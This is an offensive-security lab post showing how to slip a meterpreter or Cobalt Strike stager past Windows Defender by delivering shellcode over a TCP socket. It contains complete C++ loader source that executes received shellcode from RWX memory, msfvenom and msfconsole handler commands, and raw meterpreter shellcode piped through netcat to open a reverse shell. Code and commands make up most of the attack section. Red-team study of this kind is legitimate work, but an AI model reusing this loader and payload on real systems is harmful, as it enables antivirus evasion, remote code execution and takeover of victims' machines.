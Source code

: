 ```yaml
---
layout: post
title: "2024-06-18-bypassing windows defender one tcp socket away from meterpreter and cobalt strike beacon"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon/
---
```


# Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions

## Context

If you've tried executing an out of the box meterpreter payload on the box with Windows Defender, you know it may get picked up right away as can be seen in the below gif:

![](<../../.gitbook/assets/Peek 2019-05-07 21-40.gif>)

This quick lab shows how I was able to execute the off the shelf meterpreter payload against the latest Windows Defender (7th of May at the time of writing) by delivering the shellcode over a TCP socket.

{% hint style="info" %}
**Works with Cobalt Strike Beacon**\
The demo uses metasploit's meterpreter payload, but I have tested this technique with Cobalt Strike beacon and it also bypasses the Windows Defender.
{% endhint %}

## Overview

The technique that allowed me to bypass Windows Defender is simple:

* Victim machine (10.0.0.7) opens up a listening TCP socket on on port 443 (or any other)
* Socket on the victim machine waits for incoming shellcode
* Attacking machine (10.0.0.5) connects to the victim socket and sends the shellcode as binary data
* Victim machine receives the shellcode, allocates executable memory and moves the shellcode there
* Victim machine executes the shellcode received over the network and initiates meterpreter (or cobalt strike beacon) second stage download
* Attacking machine serves the stage and catches the shell

## Execution

Let's write, compile a simple PoC C++ program (see [Code](bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon.md#code) section) that will do all of the steps explained in the overview section.

Let's execute it on the victim machine and check if the socket on port 443 has been opened:

{% code title="attacker@victim" %}
```csharp
netstat -nat | findstr /i listen | findstr /i 443
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-07 20-45-02.png>)

Let's generate a staged meterpreter payload and output it to C format:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c > meterpreter.c
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-07 20-49-59.png>)

Let's setup an msf handler to catch the meterpreter session on the attacking machine:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-07 22-23-33.png>)

We can now take the shellcode from the C file and echo it out as a binary data, pipe it to the victim machine (where a TCP socket is listening on 443) via netcat:

{% code title="attacker@kali" %}
```bash
echo -e "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5" | nc 10.0.0.7 443
```
{% endcode %}

We are now ready to execute the attack. Below shows all of the above in action:

1. Cmd shell in the middle of the screen opens the TCP socket (port 443) on the victim machine
2. Windows Defender below the cmd shell shows the signatures are up to date
3. Top right - msfconsole is waiting and ready to send the second stage from the attacking system
4. Bottom right - attacker sends the shellcode to the victim over the wire via netcat
5. Top right - msfconsole serves the second stage to the victim and establishes the meterpreter session

![](<../../.gitbook/assets/Peek 2019-05-07 21-34.gif>)

## Conclusion

Why this works? I can only speculate. I am a huge fan of Windows Defender and I think it is doing an amazing job at catching evil and I am sure this will be caught very soon.

## Code

```cpp
#include "pch.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")

int main()
{
	LPWSADATA wsaData = new WSAData();
	ADDRINFOA *socketHint = new ADDRINFOA();
	ADDRINFOA *addressInfo = new ADDRINFOA();
	SOCKET listenSocket = INVALID_SOCKET;
	SOCKET clientSocket = INVALID_SOCKET;
	CHAR bufferReceivedBytes[4096] = {0};
	INT receivedBytes = 0;
	PCSTR port = "443";

	socketHint->ai_family = AF_INET;
	socketHint->ai_socktype = SOCK_STREAM;
	socketHint->ai_protocol = IPPROTO_TCP;
	socketHint->ai_flags = AI_PASSIVE;

	WSAStartup(MAKEWORD(2, 2), wsaData);
	GetAddrInfoA(NULL, port, socketHint, &addressInfo);

	listenSocket = socket(addressInfo->ai_family, addressInfo->ai_socktype, addressInfo->ai_protocol);
	bind(listenSocket, addressInfo->ai_addr, addressInfo->ai_addrlen);
	listen(listenSocket, SOMAXCONN);
	std::cout << "Listening on TCP port " << port << std::endl;

	clientSocket = accept(listenSocket, NULL, NULL);
	std::cout << "Incoming connection..." << std::endl;
	
	receivedBytes = recv(clientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes), NULL);
	if (receivedBytes > 0) {
		std::cout << "Received shellcode bytes " << receivedBytes << std::endl;
	}
	
	LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	std::cout << "Allocated memory for shellocode at: " << shellcode << std::endl;
	
	memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
	std::cout << "Copied shellcode to: " << shellcode << std::endl << "Sending back meterpreter session...";
	((void(*)()) shellcode)();
	
	return 0;
}
```

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/ws2tcpip/nf-ws2tcpip-getaddrinfo" %}

@spotheplanet
